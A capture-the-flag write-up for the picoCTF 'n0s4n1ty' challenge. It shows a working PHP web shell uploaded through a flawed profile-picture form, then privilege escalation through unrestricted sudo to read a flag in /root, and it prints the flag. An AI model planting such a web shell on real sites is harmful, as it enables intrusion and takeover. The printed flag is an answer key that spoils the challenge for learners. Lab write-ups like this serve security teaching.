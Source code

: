 # n0s4n1ty
|Date|Category|Difficulty|
|--|--|--|
|2025-04-29|Web Exploitation|Easy|
## Task description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory. You can access the web application [here](http://standard-pizzas.picoctf.net:51375/)!
## Solution 
On the site there is a file upload functionality, and we can upload all types of files.
I tried to upload basic *php recote code execution* file, but it was unsuccessful.
So i tried another one php RCE:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And it works, if we type `whoami` it will respond with `www-data`.

In the task hints there are a hint to use `sudo -l` command.
```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
It means we can use **literally all** commands with *sudo* permissions.
So lets see what is in `/root` with command `sudo ls -la /root`
There is a file `flag.txt`, lets read it with `sudo cat /root/flag.txt`
## Flag
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
